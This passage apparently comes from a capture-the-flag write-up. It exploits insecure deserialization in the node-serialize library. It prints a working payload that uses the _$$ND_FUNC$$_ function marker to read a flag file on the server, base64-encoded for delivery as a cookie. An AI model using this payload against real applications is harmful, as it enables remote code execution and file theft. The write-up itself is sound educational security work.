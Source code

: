 And yeah, this works without a problem. So I can craft the malicious payload (at least I thought so).

The payload needs to read our flag file and return the result as the username, so that we can see it in our website. Remember, it's shown there already as "Welcome xxx".

```javascript
let serialize = require("node-serialize");

let payload = {
	username: (() => {
		let fs = require("fs");
		let flag = fs.readFileSync("./flag").toString("utf-8");
		console.log(flag);
		
		return flag;

	})()
};

let serializedPayload = serialize.serialize(payload);
console.log(serializedPayload);
let unserializedPayload = serialize.unserialize(serializedPayload);
```

Aaaand ... oh, I made a stupid mistake!

### Problems

#### Payload was executed BEFORE serialization
Yeah, as the heading says, the payload was not serialized there and only executed before serializing. I mean makes sense because the function is executed. So I experimented a bit and looked up documentation.

https://github.com/luin/serialize

Oh, this is how functions can be executed. The function is encoded into the string and then gets executed.

### Solution

```javascript
let serialize = require("node-serialize");

let payload = `{
	"username": "_$$ND_FUNC$$_function (){let fs = require('fs');let flag = fs.readFileSync('./flag').toString('utf-8');console.log('Flag is: ' + flag);return flag;}()"
}`;

let unserializedPayload = serialize.unserialize(payload);
console.log(unserializedPayload.username);

console.log("Your payload cookie will be: " + new Buffer(payload, "utf-8").toString("base64"));
```

